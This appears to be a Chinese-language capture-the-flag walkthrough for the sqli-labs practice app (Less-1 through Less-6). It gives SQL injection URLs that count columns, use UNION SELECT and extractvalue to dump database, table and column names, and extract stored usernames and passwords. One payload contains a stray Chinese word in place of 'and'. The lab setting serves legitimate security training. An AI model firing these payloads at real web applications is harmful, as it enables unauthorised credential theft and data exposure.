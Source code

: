 ## sqli-libs

以下覆盖了基本的解法，如果遇到对应的题目，可以尝试下面解法。

[github](https://github.com/Audi-1/sqli-labs)

[BUUCTF](https://buuoj.cn/challenges#sqli-labs)

## Less-1 (GET - 基于错误的字符串注入)

1. 因为知道这里是有漏洞的，那就先猜字段数，这里传递 3 是正常的，传递 4 报错，因此字段数为 3.

```bash
http://d83b1fd5-8cf3-4432-8298-910dffdeaed0.node5.buuoj.cn/Less-1?id=1' order by 3 --+
```

2. 接下来使用联合查询，看看能不能回显信息.

```bash
http://d83b1fd5-8cf3-4432-8298-910dffdeaed0.node5.buuoj.cn/Less-1?id=1' and 1=2 union select 1,"哈哈",2--+
```

> and 1=2 表示让前面的语句失效

![less-1-1](./assets/sqli-libs/less-1-1.png)

3. 接下来可以进一步获取一些数据库信息。比如查找所有的数据库。

```bash
/Less-1/?id=1' AND 1=2 union select 1,(select group_concat(schema_name) from information_schema.schemata),3 --+
```

回显结果如下

> Your Login name:ctftraining,information_schema,mysql,performance_schema,security,test

1. 查看数据库内的表名称

```bash
/Less-1/?id=1' AND 1=2 union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='security'),3 --+
```

> Your Login name:emails,referers,uagents,users

5. 查看`users`表的列名

```bash
/Less-1/?id=1' AND 1=2 union select 1,(select group_concat(column_name) from information_schema.columns where table_name='users'),3 --+
```

> Your Login name:id,username,password,ip,time,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,id,username,password

6. 查看用户名密码

```bash
/Less-1/?id=1' AND 1=2 union select 1,(select group_concat(password) from security.users) ,(select group_concat(username) from security.users) --+
```

![less-1-2](./assets/sqli-libs/less-1-2.png)

这道题就解决了,这是基础用法，一般不可能在真正的src渗透中找到这种门户大开的漏洞。


## Less-2 (GET-基于错误的数字型注入)

解法跟 [Less-1](#less-1-get---基于错误的字符串注入)相同，只需要去掉前面的 `'` 符号。

## Less-3 (GET-基于错误的带有括号的单引号字符串注入)

这题既然也是报错，那我们就一步到位使用`Less`最后的pyload

```bash
/Less-3/?id=1 ' AND 1=2 union select 1,(select group_concat(password) from security.users) 
```

![less-3-1](./assets/sqli-libs/less-3-1.png)

根据错误，我们只需再补充一个括号就好了。

```bash
/Less-3/?id=1 ') AND 1=2 union select 1,(select group_concat(password) from security.users) ,(select group_concat(username) from security.users) --+
```

## Less-4 (基于错误的双引号字符型注入)

第四题看题目猜答案。

```bash
/Less-4/?id=1 ") AND 1=2 union select 1,(select group_concat(password) from security.users) ,(select group_concat(username) from security.users) --+
```

## Less-5 (双重注入-单引号-字符型)

先试试报错注入。

```bash
/Less-5/?id=1'
```

>You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1

报错了，我们直接尝试通过 order by 语句查找列数。

```bash
/Less-5/?id=1' order by 4--+
```

> Unknown column '4' in 'order clause'

得倒列数为3.

尝试使用联合查询看看能不能爆出错误。

```bash
/Less-5/?id=1' UNION select 'a','b','c'--+
```

没有显示出任何错误，我们接下来尝试使用`extractvalue`进行错误注入。

先找一下数据库名称。

```sql
/Less-5/?id=1' 和 extractvalue(0x0a,concat(0x0a,(select database())))--+
```

获取所有的表名称。

```sql
/Less-5/?id=1' and extractvalue(1, concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e)) --+
```

获取users 表的所有列。

```sql
/Less-5/?id=1' and extractvalue(1, concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users'),0x7e)) --+
```

>XPATH syntax error: '~id,username,password,ip,time,US'

获取users表中的所有password。

```sql
/Less-5/?id=1' and extractvalue(1, concat(0x7e,(select group_concat(password) from users),0x7e)) --+
```


## Less-6 (双重注入-双引号-字符型)

这题跟上一题类似，不过是将单引号换成双引号。

```sql
/Less-6/?id=1" and extractvalue(1, concat(0x7e,(select group_concat(password) from users),0x7e)) --+
```

## Less-7 (转储到输出文件-GET)